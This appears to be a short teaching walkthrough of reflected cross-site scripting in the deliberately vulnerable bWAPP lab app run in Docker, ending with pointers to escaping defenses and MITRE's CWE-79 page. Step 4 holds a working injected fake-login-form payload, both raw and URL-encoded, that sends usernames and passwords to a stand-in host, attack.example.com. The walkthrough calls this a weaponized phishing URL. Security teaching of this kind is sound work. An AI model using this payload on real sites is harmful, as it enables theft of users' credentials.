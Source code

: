 1. Start BWAPP:

```bash
docker run -p 80:80 raesene/bwapp
```

2. Run install:

```url
http://localhost/install.php
```

3. Go to Reflected XSS section:

```url
http://localhost/xss_get.php?firstname=&lastname=&form=submit
```

4. Add payload to URL:

```html
<div id="stealPassword">Please Login:<form name="input" action="http://attack.example.com/stealPassword.php" method="post">Username: <input type="text" name="username" /><br/>Password: <input type="password" name="password" /><br/><input type="submit" value="Login" /></form></div>
```

```
http://localhost/xss_get.php?firstname=a&lastname=%3Cdiv%20id=%22stealPassword%22%3EPlease%20Login:%3Cform%20name=%22input%22%20action=%22http://attack.example.com/stealPassword.php%22%20method=%22post%22%3EUsername:%20%3Cinput%20type=%22text%22%20name=%22username%22%20/%3E%3Cbr/%3EPassword:%20%3Cinput%20type=%22password%22%20name=%22password%22%20/%3E%3Cbr/%3E%3Cinput%20type=%22submit%22%20value=%22Login%22%20/%3E%3C/form%3E%3C/div%3E&form=submit
```

Question: How can this be exploited in a real-life attack?

Answer: Phishing attack using weaponized URL

5. Show escaping defense with higher security level.

6. Show client side obfuscation to bypass filters:
https://cwe.mitre.org/data/definitions/79.html

7. Show stored XSS and more examples in mitre site. 
